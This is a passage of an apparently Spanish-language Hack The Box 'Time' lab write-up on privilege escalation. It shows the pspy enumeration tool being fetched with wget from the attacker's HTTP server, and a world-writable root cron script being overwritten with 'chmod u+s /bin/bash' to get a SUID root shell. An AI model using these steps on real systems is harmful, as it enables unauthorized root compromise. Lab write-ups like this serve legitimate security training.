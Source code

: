 Nada interesante

```bash
pericles@time:/$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
pericles@time:/$ 
```

Vamos a subir el `pspy` para que nos enumere tareas que se están ejecutando <https://github.com/DominicBreuker/pspy/releases

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.141.133 - - [27/Jul/2023 13:58:52] "GET /pspy64 HTTP/1.1" 200 -
```

```bash
pericles@time:/dev/shm$ wget http://10.10.14.100:80/pspy64
```

Ahora lo ejecutamos

```bash
pericles@time:/dev/shm$ chmod +x pspy64 
pericles@time:/dev/shm$ ./pspy64 
```

![](/assets/images/htb-writeup-time/web9.png)


```bash
pericles@time:/dev/shm$ cat /usr/bin/timer_backup.sh 
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
pericles@time:/dev/shm$ ls -l /usr/bin/timer_backup.sh 
-rwxrw-rw- 1 pericles pericles 88 Jul 27 20:00 /usr/bin/timer_backup.sh
pericles@time:/dev/shm$ 
```

Vamos a editar el `script` para que le haga la `bash` `SUID`

```bash
pericles@time:/dev/shm$ nano /usr/bin/timer_backup.sh
pericles@time:/dev/shm$ cat /usr/bin/timer_backup.sh 
#!/bin/bash
chmod u+s /bin/bash
pericles@time:/dev/shm$ 
```

Ahora esperamos que se ejecute y listo
